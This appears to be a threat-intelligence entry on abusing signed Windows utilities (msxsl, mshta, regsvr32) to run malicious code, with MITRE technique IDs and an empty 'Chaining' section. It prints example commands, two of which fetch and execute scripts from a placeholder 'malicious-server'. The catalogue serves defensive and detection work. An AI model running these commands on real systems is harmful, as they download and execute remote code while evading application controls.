

# Malicious Code Execution with Windows Utilities

## Metadata

- **UUID**: `d5892ae6-d022-4ac8-858c-c2756067cdac`
- **Schema**: `threat::1.0`
- **TLP**: clear

## Description
### 1. Msxsl.exe

**Description**: A command-line XSLT processor that can transform XML data using 
XSL style sheets. Attackers can craft malicious XSL files that execute arbitrary 
code when processed.

Example:

```
msxsl.exe input.xml malicious.xsl
```

### 2. Mshta.exe
**Description**: Executes Microsoft HTML Applications (HTA files). Threat actors use it 
to run malicious scripts hosted locally or remotely.

Example:

```
mshta.exe "http://malicious-server/payload.hta"
```

### 3. Regsvr32.exe
**Description**: Registers and unregisters OLE controls like DLLs and ActiveX controls. 
Threat actors can use it to execute code via scripts.

Example:

```
regsvr32.exe /s /n /u /i:http://malicious-server/script.sct scrobj.dll
```

## Techniques
- T1218.005
- T1218.010

## Chaining

